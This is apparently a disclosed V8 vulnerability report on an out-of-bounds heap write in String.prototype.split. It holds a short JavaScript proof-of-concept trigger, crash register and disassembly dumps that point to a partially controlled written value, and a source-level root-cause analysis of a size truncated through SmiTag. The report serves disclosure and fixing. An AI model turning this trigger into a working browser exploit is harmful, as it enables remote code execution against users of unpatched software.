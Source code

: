 This vulnerability exists in 64-bit v8 in the String.p.slit CSA code. The allocation size is stored in int64 but improperly casted to smi which causes the allocated space too small and OOB write. It may potentially lead to remote code execution.

POC
var str2 = String.fromCharCode(0x2c);//add `,` into single character string cache
var o2 = new Array(0x20000000);
String.prototype.split.call(o2,'');

CRASH LOG
When the release version crashes, the registers and nearby assembly code are as follows.
[─────────────────────────────────────REGISTERS─────────────────────────────────────]
*RAX  0xffffffff <-- large offset
*RBX  0xc789cc82801 ◂— 0xff00000c789cc828 <-- value we can partially control
 RCX  0x14e781f02201 ◂— 0xc789cc823 <-- points to a FixedArray
 RDX  0xbd5f161fe3430800
 RDI  0x20
 RSI  0x1
 R8   0x9fb0e203439 ◂— 0xc789cc823
 R9   0x2c
 R10  0x7fff309962d8 ◂— 0x0
 R11  0x1
 R12  0x309cad302201 ◂— 0x300000c789cc82b
 R13  0x55d1aba3f478 —▸ 0xc789cc82ba9 ◂— 0xc789cc822
 R14  0x0
 R15  0x7fff309962d0 —▸ 0x7fff309962d8 ◂— 0x0
 RBP  0x7fff30996368 —▸ 0x7fff309963d0 —▸ 0x7fff309963f8 —▸ 0x7fff30996460 ◂— ...
 RSP  0x7fff309962d8 ◂— 0x0
*RIP  0x2b7d8e092d8a ◂— mov    qword ptr [rax + rcx], rbx
[──────────────────────────────────────DISASM───────────────────────────────────────]
   0x2b7d8e092d74    cmp    rax, 0xf
   0x2b7d8e092d78    je     0x2b7d8e091e4d

   0x2b7d8e092d7e    mov    rbx, qword ptr [r13 - 0x58]
   0x2b7d8e092d82    mov    rcx, qword ptr [rbp - 0x40]
   0x2b7d8e092d86    sub    rax, 8
 ► 0x2b7d8e092d8a    mov    qword ptr [rax + rcx], rbx <-- OOB Write here!!
   0x2b7d8e092d8e    cmp    rax, 0xf
   0x2b7d8e092d92    jne    0x2b7d8e092d86

If it is Debug version, it will crash in the DCHECK code.
#
# Fatal error in ../../src/heap/heap-inl.h, line 178
# Debug check failed: large_object.
#
#
#
#FailureMessage Object: 0x7ffee72a7da0
==== C stack trace ===============================

    0   libv8_libbase.dylib                 0x000000010f1decde v8::base::debug::StackTrace::StackTrace() + 30
    1   libv8_libbase.dylib                 0x000000010f1ded45 v8::base::debug::StackTrace::StackTrace() + 21
    2   libv8_libplatform.dylib             0x000000010f27202f v8::platform::(anonymous namespace)::PrintStackTrace() + 223
    3   libv8_libbase.dylib                 0x000000010f1a4069 V8_Fatal(char const*, int, char const*, ...) + 841
    4   libv8_libbase.dylib                 0x000000010f1a350a v8::base::(anonymous namespace)::DefaultDcheckHandler(char const*, int, char const*) + 74
    5   libv8_libbase.dylib                 0x000000010f1a4122 V8_Dcheck(char const*, int, char const*) + 50
    6   libv8.dylib                         0x000000010abb3510 v8::internal::Heap::AllocateRaw(int, v8::internal::AllocationSpace, v8::internal::AllocationAlignment) + 2912
    7   libv8.dylib                         0x000000010acab5a6 v8::internal::Heap::AllocateRawWithLigthRetry(int, v8::internal::AllocationSpace, v8::internal::AllocationAlignment) + 390
    8   libv8.dylib                         0x000000010acabb18 v8::internal::Heap::AllocateRawWithRetryOrFail(int, v8::internal::AllocationSpace, v8::internal::AllocationAlignment) + 408
    9   libv8.dylib                         0x000000010abab4ff v8::internal::Factory::NewFillerObject(int, bool, v8::internal::AllocationSpace) + 383
    10  libv8.dylib                         0x000000010bd83cb0 v8::internal::__RT_impl_Runtime_AllocateInTargetSpace(v8::internal::Arguments, v8::internal::Isolate*) + 2192
    11  libv8.dylib                         0x000000010bd82ee3 v8::internal::Runtime_AllocateInTargetSpace(int, v8::internal::Object**, v8::internal::Isolate*) + 771
    12  ???                                 0x00007ed4b8233cc4 0x0 + 139452087483588
Received signal 4 <unknown> 00010f1d4ce6

<b>VULNERABILITY DETAILS</b>
In the String.p.slipt function, the StringToArray function is called if the second parameter is an empty string

TNode<JSArray> StringBuiltinsAssembler::StringToArray(
    TNode<Context> context, TNode<String> subject_string,
    TNode<Smi> subject_length, TNode<Number> limit_number) {
  //...

  TNode<Int32T> instance_type = LoadInstanceType(subject_string);
  GotoIfNot(IsOneByteStringInstanceType(instance_type), &call_runtime);

  // Try to use cached one byte characters.
  {
    // Go to fast path
    TNode<Smi> length_smi =
        Select<Smi>(TaggedIsSmi(limit_number),
                    [=] { return SmiMin(CAST(limit_number), subject_length); },
                    [=] { return subject_length; });
    TNode<IntPtrT> length = SmiToIntPtr(length_smi);

    ToDirectStringAssembler to_direct(state(), subject_string);
    to_direct.TryToDirect(&call_runtime);
    TNode<FixedArray> elements = AllocateFixedArray(
        PACKED_ELEMENTS, length, AllocationFlag::kAllowLargeObjectAllocation);

Because it is OneByteString, it will call AllocateFixedArray to allocate elements, code of AllocateFixedArray  is as follows.

TNode<FixedArray> CodeStubAssembler::AllocateFixedArray(
    ElementsKind kind, Node* capacity, ParameterMode mode,
    AllocationFlags flags, SloppyTNode<Map> fixed_array_map) {
  Comment("AllocateFixedArray");
  CSA_SLOW_ASSERT(this, MatchesParameterMode(capacity, mode));
  CSA_ASSERT(this, IntPtrOrSmiGreaterThan(capacity,
                                          IntPtrOrSmiConstant(0, mode), mode));
  TNode<IntPtrT> total_size = GetFixedArrayAllocationSize(capacity, kind, mode);

  if (IsDoubleElementsKind(kind)) flags |= kDoubleAlignment;
  // Allocate both array and elements object, and initialize the JSArray.
  Node* array = Allocate(total_size, flags);

totol_size calculated by GetFixedArrayAllocationSize is 0x100000008, then call Allocate function, and then call AllocateRawDoubleAligned function, AllocateRaw function. The partial code of AllocateRaw function is as follows. 

  if (flags & kAllowLargeObjectAllocation) {
    Label next(this);
    GotoIf(IsRegularHeapObjectSize(size_in_bytes), &next);

    Node* runtime_flags = SmiConstant(
        Smi::FromInt(AllocateDoubleAlignFlag::encode(needs_double_alignment) |
                     AllocateTargetSpace::encode(AllocationSpace::LO_SPACE)));
    Node* const runtime_result =
        CallRuntime(Runtime::kAllocateInTargetSpace, NoContextConstant(),
                    SmiTag(size_in_bytes), runtime_flags);

IsRegularHeapObjectSize (size_in_bytes) returns true, and then call the Runtime function AllocateInTargetSpace, but the second parameter uses SmiTag for type conversion, SmiTag code is as follows

TNode<Smi> CodeStubAssembler::SmiTag(SloppyTNode<IntPtrT> value) {
  int32_t constant_value;
  if (ToInt32Constant(value, constant_value) && Smi::IsValid(constant_value)) {
    return SmiConstant(constant_value);
  }
  return BitcastWordToTaggedSigned(WordShl(value, SmiShiftBitsConstant()));
}

Although the function ToInt32Constant has a value range for determining value, it is not safe to call BitcastWordToTaggedSigned after this function. After the conversion, the size becomes 0x8 (smi). Finally, object is allocated in the LargeObjectSpace. However, the allocated space is obviously too small, and it will cause an out-of-bounds write when the Array elements are initialized which may leads to remote code execution.


